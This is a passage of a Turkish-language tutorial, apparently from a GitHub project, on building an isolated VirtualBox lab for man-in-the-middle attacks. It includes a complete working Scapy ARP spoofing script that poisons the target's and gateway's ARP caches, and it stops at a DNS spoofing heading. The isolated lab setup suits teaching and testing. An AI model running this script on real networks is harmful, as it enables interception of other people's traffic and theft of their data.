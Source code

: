 1. **VirtualBox Kurulumu**  
   → VirtualBox’ı indirin ve kurun.

2. **Sanal Makineler (VM) Oluşturma**
   - **Saldırgan VM**: Kali Linux veya herhangi bir Linux dağıtımı
   - **Kurban VM**: Herhangi bir işletim sistemi (ör. Windows, Linux)

3. **Ağ Yapılandırması**  
   - VM’leri yalnızca **dahili** veya **host-only** bir ağda çalışacak şekilde ayarlayın.  
   - Bu, testlerin üretim ağlarından izole olmasını sağlar.

---

## Temel Bileşenlerin Geliştirilmesi

---

### ARP Spoofing Betiği

ARP spoofing, ortadaki adam (MITM) saldırıları için temel bir adımdır. Bu betik, saldırganın MAC adresini ağ geçidinin IP’siyle ilişkilendirmek için sahte ARP yanıtları gönderir.

**Adımlar:**

- Scapy’yi kurun: `pip install scapy`
- IP yönlendirmeyi etkinleştirin:  
  ```bash
  sudo sysctl -w net.ipv4.ip_forward=1
  ```
- ARP spoofing betiği:

```python
from scapy.all import *
import time

def get_mac(ip):
    ans, _ = arping(ip)
    for s, r in ans:
        return r[Ether].src

def arp_spoof(target_ip, gateway_ip):
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)
    while True:
        send(ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=gateway_ip), verbose=0)
        send(ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac, psrc=target_ip), verbose=0)
        time.sleep(2)

arp_spoof('192.168.1.10', '192.168.1.1')
```

---

### DNS Spoofing Betiği
